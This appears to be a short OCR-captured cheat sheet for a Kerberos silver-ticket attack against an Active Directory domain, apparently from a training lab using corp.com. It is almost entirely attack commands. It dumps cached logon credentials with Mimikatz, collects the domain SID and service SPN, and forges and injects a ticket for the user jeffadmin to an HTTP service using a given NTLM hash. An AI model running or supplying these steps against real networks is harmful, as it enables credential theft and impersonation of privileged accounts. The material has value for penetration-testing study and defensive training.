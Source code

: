 1. **Extract cached AD credentials**

```
.\mimikatz.exe  
privilege::debug  
sekurlsa::logonpasswords  
```
  
2. **Retrieve NTLM hash of the service account you want to forge a ticket for** 
  
3.  **Get Domain SID**

```
whoami /user  
```
  
4. **Get Target SPN**

```
setspn -L iis_service  (or use PowerView)  
```
  
5. **Forge Ticket (in Mimikatz) **

```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin  
```
  
6. **Find Tickets in Memory **

```
klist
```